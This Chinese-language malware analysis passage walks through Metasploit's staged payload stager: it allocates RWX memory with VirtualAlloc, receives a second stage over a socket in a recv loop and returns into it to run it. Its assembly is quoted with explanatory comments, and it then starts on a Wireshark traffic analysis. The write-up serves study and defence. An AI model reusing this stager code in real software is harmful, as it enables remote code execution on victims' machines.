 首先压入了VirtualAlloc函数的参数，接着在第6行使用block\_api\_hash函数得到了VirtualAlloc函数的地址。

接着调用了VirtualAlloc函数用来申请一块具有RWX权限的内存空间，空间的大小是msf发送过来的四字节数据。

```c
mov esi,[esi] ; dereference the pointer to the second stage length 
push 0x40 ; PAGE_EXECUTE_READWRITE 
push 0x1000 ; MEM_COMMIT 
push esi ; push the newly recieved second stage length. 
push 0 ; NULL as we dont care where the allocation is. 
push #{Rex::Text.block_api_hash('kernel32.dll', 'VirtualAlloc')} 
call ebp ; VirtualAlloc( NULL, dwLength, MEM_COMMIT, PAGE_EXECUTE_READWRITE ); 
; Receive the second stage and execute it... 
xchg ebx, eax ; ebx = our new memory address for the new stage 
push ebx ; push the address of the new stage so we can return into it
```

在第7行又调用了recv函数，接收msf发送过来的载荷，通过push压入的参数可以知道，是将接收到的载荷放到了刚刚申请的内存中。

需要注意的是，msf并不是一下子就把整个载荷发送了过来，而是把载荷分成了很多份分开发送的，所以下面通过cmp指令来判断是否接收完成，这里判断有没有接收完成的依据是通过，载荷的大小-接收的字节数来循环接收的。

```c
read_more: 
    push 0 ; flags 
    push esi ; length 
    push ebx ; the current address into our second stage's RWX buffer 
    push edi ; the saved socket 
    push #{Rex::Text.block_api_hash('ws2_32.dll', 'recv')} 
    call ebp ; recv( s, buffer, length, 0 );//recv函数的返回值会放到eax寄存器中，返回值是接收了多少字节的数据 
    cmp eax, 0//将eax与0比较，如果eax大于或等于0那么就执行jge跳转到read_successful处执行 
    jge read_successful
```

下面的汇编主要是判断载荷有没有接收完成，如果没有接收完成就通过jnz跳转继续调用read\_more下的代码，如果接收完成就直接ret。

```c
read_successful: 
    add ebx, eax ; buffer += bytes_received//跳过接收过得载荷的内存，因为不可能一直往一个内存地址里面塞载荷 
    sub esi, eax ; length -= bytes_received, will set flags//减去对载荷的大小 
    jnz read_more ; continue if we have more to read//如果sub esi,eax不等于0那么就执行jnz跳回read\_more继续接收，如果等于0，代表接收载荷完成，就不会跳转到read_more而是直接retn返回 
    ret ; return into the second stage
```

到了这里，我们已经接收到了真正的载荷了，但是现在还无法运行，因为在内存中没有人调用它，下面我们先通过wireshark来分析上线的过程，看metasploit都发过来了什么，在分析metsrv.dll是如何被调用的。

## 上线流量分析

服务端做好监听，wireshark做好过滤规则

![image.png](assets/1698893687-6f50aca947fe9173eb3a85cf08c3c87f.png)
